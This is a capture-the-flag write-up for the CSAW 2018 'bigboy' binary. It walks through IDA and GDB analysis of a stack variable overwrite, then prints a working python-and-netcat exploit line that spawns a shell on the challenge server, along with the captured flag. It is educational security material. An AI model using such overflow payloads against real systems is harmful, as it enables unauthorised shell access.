

# bigboy CSAW 2018 Qualification Round

Let's start by looking at the file we are given.

```
$ file boi
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

Okay this is an 64-bit x86 executable file.  Let's run it and see what happens.

```
$ boi
Are you a big boiiiii??
yes
Tue Oct  2 01:20:44 EDT 2018
```

After asking the question, the program is waiting for user input.  Then it appears to just print the date.  Let's put this into IDA and see how this works.


As seen in IDA, the program loads 0xDEADBEEF onto the stack, gets 0x18 bytes of user input, loads the value saved to the stack and then compares it with 0x0CAF3BAEE.  If the value on the stack equals 0xCAF3BAEE, it runs /bin/bash, otherwise it runs /bin/date.  Therefore, the goal should be to overrwrite the value on the stack so /bin/bash can be ran.

Next, let's load the program in GDB and use what we learned from IDA to try to run /bin/bash.


As can be seen above, the program is stopped during the call to read.  As can be seen, rsi has the buffer location.  Also, 0xDEADBEEF can be seen in the stack and is also within the 0x18 bytes that read will read in.  Specifically, 0xDEADBEEF is located at 20 bytes into the stack.  Therefore, to run /bin/bash, input 20 lines of padding and then 0x0CAF3BAEE in little endian form since x86 is a little endian.

By doing this we can get /bin/sh to run and get the flag!

```
(python2 -c "print 'A'*20+'\xee\xba\xf3\xca'"; cat) | nc pwn.chal.csaw.io 9000

AAAAAAAAAAAAAAAAAAAA���
 _    ___        ____   ___  _ _ _ _ 
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/                       
***************************************
Are you a big boiiiii??
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bigboy@52c491e1e9ec:~$ 
bigboy@52c491e1e9ec:~$ cat flag.txt	
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
